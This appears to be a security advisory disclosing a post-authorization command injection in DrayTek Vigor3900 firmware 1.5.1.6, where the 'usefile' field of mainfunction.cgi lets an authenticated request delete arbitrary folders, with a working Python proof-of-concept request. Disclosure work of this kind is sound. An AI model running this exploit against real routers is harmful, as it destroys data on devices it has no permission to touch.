


# There is a post-authorization command injection vulnerability in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. Because the file does not properly consider the filtering of the values of the relevant fields when processing the request, it can lead to the deletion of arbitrary files.



We can control the value of the `usefile` field to control the execution of the `system` function, which deletes folders. In this way, malicious attackers can pass in the specified path to delete related folders.

## 3、Vulnerability Verification

The constructed POC is as follows, where the relevant `Cookie` value is required.

```python
import requests

def send_post_request(ip_address, session_cookie, file_name):
    url = f"http://{ip_address}/cgi-bin/mainfunction.cgi"
   
    headers = {
        "Host": ip_address,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Cookie": session_cookie,
        "Connection": "close"
    }

    data = {
        "action": "jsonstatus",
        "usescript": "aaaa",
        "usefile": file_name
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

# 示例参数
ip_address = "10.10.10.2"
session_cookie = "SESSION_ID_VIGOR=7:2ECA2EBBA967426FE43909D9AE44CC75"
file_name = "/www/cgi-bin/jfkk"

# 调用函数并打印响应
response_text = send_post_request(ip_address, session_cookie, file_name)
print(response_text)
```

As can be seen below, we successfully deleted a folder named `jfkk`, which became `jfkk.lock` but cannot be restored.




